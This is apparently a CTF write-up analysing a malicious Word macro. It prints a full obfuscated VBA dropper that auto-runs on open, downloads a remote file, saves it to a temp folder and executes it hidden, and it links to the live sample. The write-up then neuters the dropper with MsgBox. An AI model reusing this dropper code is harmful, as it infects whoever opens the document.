


# Analyzing malicious VBA Macro
## Thanks to [hacklab-ESGI ](http://hacklab-esgi.fr). It was a nice CTF.

Yop yop,

This article covers analysis a malicious word document.
So, WORK IN SANDBOX.

Requirement :
* [OleTools](http://www.decalage.info/python/oletools)
* Microsoft Office (Word/Excel)
* The challenge `SHA1(Facture.zip)= 124a321f44bd66469a2215a1a0d3ff59aad002cf`

You can find [the challenge here](https://github.com/tfairane/HackStory/blob/master/bin/Facture.zip?raw=true) and the password is : `infected`

## Extract malicious VBA

```
➜  oletools python olevba.py ~/Desktop/Facture31864223m.doc 
olevba 0.43 - http://decalage.info/python/oletools
Flags        Filename                                                         
-----------  -----------------------------------------------------------------
XML:MAS--B-V /root/Desktop/Facture31864223m.doc

(Flags: OpX=OpenXML, XML=Word2003XML, MHT=MHTML, TXT=Text, M=Macros, A=Auto-executable, S=Suspicious keywords, I=IOCs, H=Hex strings, B=Base64 strings, D=Dridex strings, V=VBA strings, ?=Unknown)

===============================================================================
FILE: /root/Desktop/Facture31864223m.doc
Type: Word2003_XML
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: editdata.mso - OLE stream: u'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Module0.bas 
in file: editdata.mso - OLE stream: u'VBA/Module0'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub loitrefsdff()
bmvsandasdxz
End Sub
Sub AutoOpen()
    loitrefsdff
End Sub
Sub Workbook_Open()
    loitrefsdff
End Sub

-------------------------------------------------------------------------------
VBA MACRO Module1.bas 
in file: editdata.mso - OLE stream: u'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub bmvsandasdxz()

Set xzcccvbnfgasd = CreateObject(Module3.yuIGyusf)
xzcccvbnfgasd.Open xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("UFH"), Module2.nvbvNCVojdsf, False
xzcccvbnfgasd.send

    Set dserSXDCGHvjh = CreateObject(Module3.tTYDTGjdsfsc)
    dserSXDCGHvjh.Open
    dserSXDCGHvjh.Type = 0 + 1
    dserSXDCGHvjh.Write xzcccvbnfgasd.responseBody
    dserSXDCGHvjh.SaveToFile Module4.uiGGGhjsdffds, 2
    dserSXDCGHvjh.Close
Module4.pabhVHVasd
End Sub

-------------------------------------------------------------------------------
VBA MACRO Module2.bas 
in file: editdata.mso - OLE stream: u'VBA/Module2'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Public Function nvbvNCVojdsf()
cXbasdvjhVKdas = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("yi")
nmBNMbasdx = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu(";qy")
gyFGHCsdfff = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("00")
xzcxcSSdas = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("ofc0") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("{") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("j")
oiuChgjsd = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("0o") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("b") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("j")
nNNNMmbbbx = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("eubix") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("pzej") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("qyfv") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("udf") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("dbi/") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("cbml")
iyUYTFcdsf = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("iq/78") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("q")
nvbvNCVojdsf = cXbasdvjhVKdas + nmBNMbasdx + gyFGHCsdfff + nNNNMmbbbx + xzcxcSSdas + oiuChgjsd + iyUYTFcdsf
End Function
-------------------------------------------------------------------------------
VBA MACRO Module3.bas 
in file: editdata.mso - OLE stream: u'VBA/Module3'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Public Function bNmjjidDds()
hjJkhu = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("U")
erSFdfg = hjJkhu + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("NF")
 bNmjjidDds = erSFdfg + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("Q")
End Function
Public Function yuIGyusf()
edfgSdsffv = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("djN")
lIIysdfsdfF = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("NY/ug")
yuIGyusf = edfgSdsffv + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("ptps") + lIIysdfsdfF + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("QUUIM")
End Function
Public Function tTYDTGjdsfsc()
drTHjsdf = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("EPE")
eeFJsdfcvb = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("suT")
tTYDTGjdsfsc = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("B") + drTHjsdf + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("/C") + eeFJsdfcvb + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("nbf")
End Function
-------------------------------------------------------------------------------
VBA MACRO Module4.bas 
in file: editdata.mso - OLE stream: u'VBA/Module4'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Public Function uiGGGhjsdffds()
pPOouhB = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("y")
uiGGGhjsdffds = Environ(Module3.bNmjjidDds) & xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("f/hojlmbobojuvq0") + pPOouhB + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("f")

End Function

Public Function pabhVHVasd()
pabhVHVasd = Shell(xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("fyf/hojlmbobojuvq0&QNU&!usbut!d0!end"), vbHide)
End Function

-------------------------------------------------------------------------------
VBA MACRO Module5.bas 
in file: editdata.mso - OLE stream: u'VBA/Module5'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu(ByVal HihqAdteQueNRsTPuIdihDEqMRPSNZejt As String)

Dim PLidTuCTPJRQMPVDJFMJaVtdhbNtZofpQ() As Byte, xvQQTntrAJuCNaDhTaGcjuMTxqcnUNGSb As Long

 PLidTuCTPJRQMPVDJFMJaVtdhbNtZofpQ = HihqAdteQueNRsTPuIdihDEqMRPSNZejt

For xvQQTntrAJuCNaDhTaGcjuMTxqcnUNGSb = UBound(PLidTuCTPJRQMPVDJFMJaVtdhbNtZofpQ) - 1 To 0 Step -2

 xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu & Chr(PLidTuCTPJRQMPVDJFMJaVtdhbNtZofpQ(xvQQTntrAJuCNaDhTaGcjuMTxqcnUNGSb) - 1)

Next xvQQTntrAJuCNaDhTaGcjuMTxqcnUNGSb

End Function
+------------+----------------------+-----------------------------------------+
| Type       | Keyword              | Description                             |
+------------+----------------------+-----------------------------------------+
| AutoExec   | AutoOpen             | Runs when the Word document is opened   |
| AutoExec   | Workbook_Open        | Runs when the Excel Workbook is opened  |
| Suspicious | Open                 | May open a file                         |
| Suspicious | Shell                | May run an executable file or a system  |
|            |                      | command                                 |
| Suspicious | vbHide               | May run an executable file or a system  |
|            |                      | command                                 |
| Suspicious | CreateObject         | May create an OLE object                |
| Suspicious | Chr                  | May attempt to obfuscate specific       |
|            |                      | strings                                 |
| Suspicious | SaveToFile           | May create a text file                  |
| Suspicious | Environ              | May read system environment variables   |
| Suspicious | Write                | May write to a file (if combined with   |
|            |                      | Open)                                   |
| Suspicious | Base64 Strings       | Base64-encoded strings were detected,   |
|            |                      | may be used to obfuscate strings        |
|            |                      | (option --decode to see all)            |
| Suspicious | VBA obfuscated       | VBA string expressions were detected,   |
|            | Strings              | may be used to obfuscate strings        |
|            |                      | (option --decode to see all)            |
+------------+----------------------+-----------------------------------------+
```

## Innocent Payload

Change harmful with innocent function.

```
Public Function pabhVHVasd()
pabhVHVasd = MsgBox(xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("fyf/hojlmbobojuvq0&QNU&!usbut!d0!end"), vbHide)
End Function
```

And print suspicious variable.

```
Public Function nvbvNCVojdsf()
cXbasdvjhVKdas = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("yi")
nmBNMbasdx = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu(";qy")
gyFGHCsdfff = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("00")
xzcxcSSdas = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("ofc0") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("{") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("j")
oiuChgjsd = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("0o") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("b") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("j")
nNNNMmbbbx = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("eubix") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("pzej") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("qyfv") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("udf") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("dbi/") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("cbml")
iyUYTFcdsf = xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("iq/78") + xCPgNnfrZfuCcsDdgAitdfoEbQIbnRHmu("q")
nvbvNCVojdsf = cXbasdvjhVKdas + nmBNMbasdx + gyFGHCsdfff + nNNNMmbbbx + xzcxcSSdas + oiuChgjsd + iyUYTFcdsf

MsgBox(nvbvNCVojdsf)

End Function
```

## Office shit ...

Open Word or Excel > Option > activate "Developer" option

Go to "Developer" menu > "Macros" and create new one. 


And copy paste our new Macro, run and enjoy your flags.




#### Note :

Same shit for many droppers you can find in JavaScript or VBScript. If you have only 2 minutes to reverse, use dynamic analysis by changing `Shell` and `Open` functions with `MsgBox` (or `console.log` for JS). Question of productivity.
